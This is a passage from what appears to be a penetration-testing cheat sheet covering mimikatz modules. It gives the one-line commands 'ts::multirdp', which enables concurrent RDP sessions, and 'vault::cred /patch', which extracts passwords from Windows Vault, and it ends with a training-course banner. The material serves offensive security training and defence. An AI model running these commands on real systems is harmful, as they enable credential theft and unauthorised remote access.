 - **TS::MultiRDP**: Allow multiple RDP sessions.

  - `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: List TS/RDP sessions.
  - _No specific command provided for TS::Sessions in original context._

### Vault

- Extract passwords from Windows Vault.
  - `mimikatz "vault::cred /patch" exit`

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}

{{#include ../../banners/hacktricks-training.md}}



